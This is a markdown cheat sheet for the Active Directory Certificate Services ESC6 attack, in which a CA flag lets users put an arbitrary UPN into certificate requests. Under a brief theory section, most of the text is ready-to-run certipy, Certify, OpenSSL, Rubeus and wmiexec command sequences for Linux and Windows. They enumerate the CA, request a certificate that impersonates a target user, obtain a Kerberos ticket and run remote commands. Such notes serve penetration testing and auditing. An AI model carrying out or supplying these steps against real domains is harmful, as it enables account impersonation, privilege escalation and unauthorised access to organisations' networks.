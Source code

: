# ESC6—CA-level UserSpecifiedSAN (EDITF_ATTRIBUTESUBJECTALTNAME2)

## Theory

> [!summary] Overview
>
> If the CA has **EDITF_ATTRIBUTESUBJECTALTNAME2** enabled (a.k.a. **UserSpecifiedSAN: Enabled**), enrollees can inject arbitrary SAN/UPN values in CSRs for **any** template, including ones (e.g., `User`) that normally don’t allow SANs. This effectively turns those templates into ESC1-style impersonation paths. 

> [!important]
>
> Microsoft patched this behavior in the **May 2022** updates (CVE-2022-26923), but misconfigured/unpatched environments may still be vulnerable.

## Requirements

- CA flag **UserSpecifiedSAN / EDITF_ATTRIBUTESUBJECTALTNAME2 = Enabled**.
- A template permitting **Client Authentication** EKU (e.g., `User`) and enroll rights for low-privileged users.
- Environment not enforcing the May 2022 hardening (or otherwise still honoring the CA flag).
 
---

## Linux

### Enumerate CA

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# In "Certificate Authorities", confirm: User Specified SAN : Enabled
```

### Exploit (request Cert with Alternate UPN via CSR)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template 'User' -upn '<TARGET_UPN>' \
  -out '<PFX_FILE>'
# Expect: "Got certificate with UPN '<TARGET_UPN>'" and often "Certificate has no object SID"
```

### Authenticate (PKINIT) and Use TGT

```bash
certipy auth -pfx '<PFX_FILE>.pfx' -domain '<DOMAIN>' -dc-ip <DC_IP>
KRB5CCNAME='<TARGET_USER>.ccache' wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

## Windows

### Enumerate CA

```powershell
.\Certify.exe cas
# In "Enterprise/Enrollment CAs": look for
#   [!] UserSpecifiedSAN : EDITF_ATTRIBUTESUBJECTALTNAME2 set
```

### Exploit (request Cert with Altname on Normally non-SAN template)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:User /altname:<TARGET_UPN> > cert.pem
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out cert.pfx
```

### Authenticate as Target

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:cert.pfx /nowrap
# Use returned TGT (kirbi) or /getcredentials to retrieve NTLM if permitted
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:<BASE64_TGT>
```
